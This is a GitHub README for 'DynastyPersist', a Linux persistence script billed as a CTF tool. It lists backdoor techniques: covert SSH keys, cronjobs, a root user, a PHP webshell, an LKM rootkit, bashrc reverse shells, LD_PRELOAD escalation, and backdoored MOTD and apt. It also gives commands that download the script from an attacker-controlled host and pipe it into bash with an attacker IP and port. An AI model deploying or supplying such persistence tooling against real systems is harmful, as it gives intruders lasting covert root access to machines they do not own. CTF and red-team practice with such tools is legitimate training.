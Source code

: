 
<h1 align="center">DynastyPersist</h1>


* A CTF Tool for Linux persistence (KOTH, Battlegrounds)

* A powerful and versatile Linux persistence script designed for various security assessment and testing scenarios. This script provides a collection of features that demonstrate different methods of achieving persistence on a Linux system.

![GitHub](https://img.shields.io/github/license/trevohack/DynastyPersist)
![GitHub stars](https://img.shields.io/github/stars/trevohack/DynastyPersist)

## Features

1. **SSH Key Generation:** Automatically generates SSH keys for covert access.

2. **Cronjob Persistence:** Sets up cronjobs for scheduled persistence.

3. **Custom User with Root:** Creates a custom user with root privileges.

4. **RCE Persistence:** Achieves persistence through remote code execution (php webshell).

5. **LKM/Rootkit:** Demonstrates Linux Kernel Module (LKM) based rootkit persistence.

6. **Bashrc Persistence:** Modifies user-specific shell initialization files for persistence (aliases / reverse shells). 

7. **Systemd Service for Root:** Sets up a systemd service for achieving root persistence.

8. **LD_PRELOAD Privilege Escalation Config:** Configures LD_PRELOAD for privilege escalation.

9. **Backdooring Message of the Day / Header:** Backdoors system message display for covert access.

10. **Modify an Existing Systemd Service:** Manipulates an existing systemd service for persistence.

11. **Backdoors APT Command:** Backdoors `apt` command to pop up a shell. 


## Installation

1. Clone this repository to your local machine:

```bash
$ git clone https://github.com/Trevohack/DynastyPersist.git

$ python3 -m http.server 8080 
root@tyler.thm~$ cd /opt && wget -c [ATTACKER-IP]:8080/DynastyPersist && cd DynastyPersist && chmod +x dynasty.sh && ./dynasty.sh <ATTACKER_IP> <PORT>
``` 

2. One linear
   
```bash
curl -sSL [ATTACKER_IP]:8080/DynastyPersist/dynasty.sh <ATTACKER_IP> <PORT> | bash
``` 

## Support

For support, email `spaceshuttle.io.all@gmail.com` or join our Discord server. 

* Discord: `https://discord.gg/WYzu65Hp`

Thank You! 

![icons8-linux](https://github.com/Trevohack/DynastyPersist/assets/136177431/61035f94-039b-4ed9-b463-36a78aa69ab0)
